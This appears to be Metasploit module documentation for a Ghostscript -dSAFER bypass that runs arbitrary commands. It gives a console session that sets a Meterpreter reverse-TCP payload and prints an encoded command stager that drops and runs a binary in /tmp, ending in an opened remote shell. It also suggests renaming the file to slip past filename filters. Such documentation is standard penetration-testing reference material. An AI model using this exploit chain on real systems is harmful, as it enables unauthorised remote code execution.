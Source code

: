 ## Introduction

This module exploits a `-dSAFER` bypass in Ghostscript to execute
arbitrary commands by handling a failed `restore` (`grestore`) in
PostScript to disable `LockSafetyParams` and avoid `invalidaccess`.

This vulnerability is reachable via libraries such as ImageMagick,
and this module provides the latest vector for Ghostscript.

For previous Ghostscript vectors, please see the following modules:
  `exploit/unix/fileformat/ghostscript_type_confusion`
  `exploit/unix/fileformat/imagemagick_delegate`

## Setup

Install Ghostscript and use the console command (`gs` on Unix and
`gswin64c` on Windows). You may also exploit the vulnerability through
ImageMagick using `convert` or `identify`, for example.

## Targets

```
Id  Name
--  ----
0   Unix (In-Memory)
1   PowerShell (In-Memory)
2   Linux (Dropper)
```

## Options

### FILENAME

Set this to the output file's name. Depending on the target environment,
the file extension may not matter, so the PS file could be named
`msf.pdf`, for instance. This can potentially work around filename
filters.

### WritableDir

Set this to a writable directory without `noexec`.

## Usage

```
msf > use exploit/multi/fileformat/ghostscript_failed_restore
msf exploit(multi/fileformat/ghostscript_failed_restore) > set target Linux (Dropper)
target => Linux (Dropper)
msf exploit(multi/fileformat/ghostscript_failed_restore) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/fileformat/ghostscript_failed_restore) > set lhost 172.28.128.1
lhost => 172.28.128.1
msf exploit(multi/fileformat/ghostscript_failed_restore) > set disablepayloadhandler false
disablepayloadhandler => false
msf exploit(multi/fileformat/ghostscript_failed_restore) > set wfsdelay 3600
wfsdelay => 3600
msf exploit(multi/fileformat/ghostscript_failed_restore) > set verbose true
verbose => true
msf exploit(multi/fileformat/ghostscript_failed_restore) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+QAAAAAAAAB6AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UmoKQVlWUGopWJlqAl9qAV4PBUiFwHg7SJdIuQIAEVysHIABUUiJ5moQWmoqWA8FWUiFwHklSf/JdBhXaiNYagBqBUiJ50gx9g8FWVlfSIXAecdqPFhqAV8PBV5aDwVIhcB47//m>>'/tmp/hvQlm.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/tgxVT' < '/tmp/hvQlm.b64' ; chmod +x '/tmp/tgxVT' ; '/tmp/tgxVT' ; rm -f '/tmp/tgxVT' ; rm -f '/tmp/hvQlm.b64'"]
[+] msf.ps stored at /Users/wvu/.msf4/local/msf.ps
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (816260 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 172.28.128.3:51648) at 2018-09-05 19:44:32 -0500

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > sysinfo
Computer     : 10.0.2.15
OS           : Ubuntu 16.04 (Linux 4.4.0-134-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
